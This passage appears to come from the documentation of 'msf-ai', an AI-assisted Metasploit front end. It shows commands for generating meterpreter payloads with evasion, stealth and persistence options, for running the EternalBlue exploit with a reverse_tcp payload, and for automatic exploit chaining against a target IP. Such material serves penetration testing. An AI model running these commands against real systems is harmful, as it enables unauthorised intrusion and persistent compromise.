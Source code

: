 #### Usage:
```bash
# Generate optimized payload
msf-ai> ai payload --target 192.168.1.100 --type meterpreter

# Generate with evasion
msf-ai> ai payload --target 192.168.1.100 --evasion advanced

# Custom payload generation
msf-ai> ai payload --target 192.168.1.100 --requirements stealth,persistence
```

## Exploitation Framework

### Exploit Execution

#### Manual Exploitation
```bash
# List available exploits
msf-ai> exploits list --target-os windows

# Show exploit information
msf-ai> exploits info ms17_010_eternalblue

# Execute exploit
msf-ai> exploit ms17_010_eternalblue --target 192.168.1.100 --payload windows/meterpreter/reverse_tcp
```

#### AI-Assisted Exploitation
```bash
# Automatic exploit selection and execution
msf-ai> ai exploit --target 192.168.1.100 --auto

# Exploit chaining
msf-ai> ai exploit --target 192.168.1.100 --chain --depth 3

# Success probability filtering
msf-ai> ai exploit --target 192.168.1.100 --min-probability 0.7
```

### Payload Management

#### Payload Types
- **Meterpreter**: Full-featured post-exploitation payload
- **Shell**: Basic command shell access
- **Reverse**: Connects back to attacker
- **Bind**: Listens on target for connections
- **Staged**: Multi-stage payload delivery
- **Stageless**: Single-stage payload
